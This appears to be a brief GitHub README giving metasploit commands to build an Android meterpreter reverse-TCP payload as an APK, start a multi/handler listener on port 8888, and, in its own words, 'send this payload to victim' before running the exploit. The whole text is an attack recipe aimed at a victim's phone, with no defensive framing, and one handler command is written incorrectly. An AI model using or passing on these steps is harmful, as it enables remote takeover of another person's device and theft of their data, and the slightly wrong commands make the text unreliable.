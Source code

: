 # make-Payload-in-metasploits
msf5> msfvenom -p android/meterpreter/reverse_tcp LHOST= (your IP) LPORT=8888 R > filename.apk 
[When Payload is create we are set multi handler]
msf5>set /multi/handler
msf5>set LHOST (your IP)
msf5>set LPORT 8888

[SEND THIS PAYLOAD TO VICTIM]
msf5>exploit



